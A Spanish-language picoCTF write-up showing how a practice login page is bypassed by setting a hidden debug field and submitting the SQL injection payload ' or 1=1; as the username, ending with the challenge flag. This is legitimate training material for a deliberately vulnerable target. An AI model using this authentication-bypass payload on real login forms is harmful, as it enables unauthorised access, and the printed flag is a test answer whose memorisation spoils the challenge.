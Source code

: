 # Objetivo

Hay un sitio web funcionando en `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) o http: //jupiter.challenges.picoctf.org:50009. ¿Crees que puedes iniciar sesión con nosotros? ¡Intenta ver si puedes iniciar sesión!
1. No parece haber muchas formas de interactuar con esto. Me pregunto si los usuarios se mantienen en una base de datos.
2. Intente pensar en cómo el sitio web verifica su inicio de sesión.

## Solución

```
Causaremos un error de inyeccion, haciendo uso de unas comillas en laparte del usuario (").
Inspeccionamos el cuadro y vemos que el apartado donde ingresamos los datos de usuario y password, son identificados como username y password.
Tambien observamos que en el cuadro de Login, se pueden cambiar varios parametros, y ahi observamos que salen varios parametros que estaban ocultos con anterioridad:

<input type="hidden" name="debug" value="0">

--Este apartado lo cambiamos a 1 y nos aparecen los datos que se envian desde los cuadros de texto y ademas la consulta que se realiza en la abse de datos, la cual es:
SQL query: SELECT * FROM users WHERE name='usermane' AND password='password'
Entonces jugamos con esta consulta y con el usuario enviamos 
username: ' or 1=1;
password: password
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='password'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}


```
## Notas adicionales

- Usamos inyección SQL, tratando de burlar la consulta que hace la pagina a la base de datos.
- Esto lo pudimos realizar tanto en la pagina al momento de inspeccionar como en la terminal de nuestra maquina.

Usamos las siguientes instrucciones:
usermane: ' or 1=1;
password: password
SQL query: SELECT * FROM users WHERE name='' or 1=1; AND password='admin'
## Referencias

http://jsnice.org/